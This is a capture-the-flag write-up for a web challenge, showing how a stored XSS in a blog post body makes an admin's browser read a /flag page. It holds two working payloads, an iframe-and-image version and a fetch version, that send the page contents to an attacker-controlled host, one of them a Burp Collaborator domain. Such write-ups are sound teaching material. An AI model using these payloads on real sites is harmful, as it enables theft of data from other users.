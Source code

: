 When you register an account, you quickly discover that you are not allowed to read the flag without being an admin.
This means we either have to become the admin, trick the admin into giving us the flag.

By testing the blog posting form, we quickly find that the body is injectable. We check the cookies and realize that they are HttpOnly, and thus we cannot steal the admin's cookie.

We can however trick the admin into reading the `/flag` contents and send it to us. We can either use fetch to get the content, or we can use and iframe. I will show the the old school iframe variant.

Body:

```
<iframe id="ifr" src="/flag"></iframe>
<script>
setTimeout(function() {
    var data = document.getElementById('ifr').contentDocument.body.innerHTML;
    var img = new Image();
    img.src = "//<attack-controlled-domain>/?data=" + btoa(data);
}, 2000)
</script>
```
We inject an iframe pointing to the flag. We use a setTimeout with 2 seconds, to delay the execution of the script untill the iframe has hopefully loaded. We then grab the contents, base64 encode it with `btoa` (Binary-TO-Ascii) and send it to a host we control. When solving this, Burp Collaborator was used as the attacker controlled domain.


More modern version
```
<script>
fetch("/flag").then(res => res.text())
 .then(data => fetch(`//smiuwjhkt2tehte6xtguez1l5cbcz1.oastify.com/?${btoa(data)}`))
</script>
```
